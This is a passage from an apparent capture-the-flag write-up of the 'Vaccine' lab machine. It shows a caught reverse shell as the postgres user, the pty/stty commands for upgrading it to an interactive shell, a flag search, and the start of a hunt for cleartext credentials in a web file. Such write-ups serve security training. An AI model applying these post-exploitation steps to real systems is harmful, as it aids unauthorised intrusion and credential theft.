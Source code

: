 ```
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.174:43380.
bash: cannot set terminal process group (3364): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ whoami
whoami
postgres
postgres@vaccine:/var/lib/postgresql/11/main$ 
```

*We got the foothold. We will quickly make our shell fully interactive:*

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

Here's a quick rundown of the commands:

- ```python3 -c 'import pty;pty.spawn("/bin/bash")'```: This command spawns a fully interactive TTY shell using Python, making the shell behave more like a local terminal with features like command history and job control.

- ```CTRL+Z```: This keyboard shortcut suspends the current process (the shell) and brings you back to your local terminal.

- ```stty raw -echo; fg```: The ```stty raw -echo``` command changes the terminal settings to pass input directly to the shell without echoing it back, making the remote shell more responsive. ```fg``` resumes the suspended process (your shell) in the foreground.

- ```export TERM=xterm```: This sets the terminal type to ```xterm```, which helps certain terminal features work correctly, such as text formatting and arrow keys.

Note: Unfortunately, the shell proved to be extremely unstable, often crashing every 1-2 minutes. As a result, I had to re-launch the exploit multiple times to quickly enumerate and explore the target machine. Also, sending a newline manually by typing Ctrl+J instead of pressing Enter has helped me to execute the ```export TERM=xterm``` command properly on some instances.

Anyway, let's go back to the official write-up: *We got the fully interactive shell now. The user flag could be found in ```/var/lib/postgresql/```.

Note: I am using the following command for convenience when looking for flags:

```
find / -name user.txt 2>/dev/null
```

*As for the privilege escalation, we are user "postgres", but we don't know the password for it, which means we cannot check our sudo privileges using the ```sudo -l``` command. We will try to find the password in the /var/www/html folder, since the machine uses both PHP & SQL, meaning that there should be credentials in clear text. In the dashboard.php, we found the following line revealing credentials we need:*

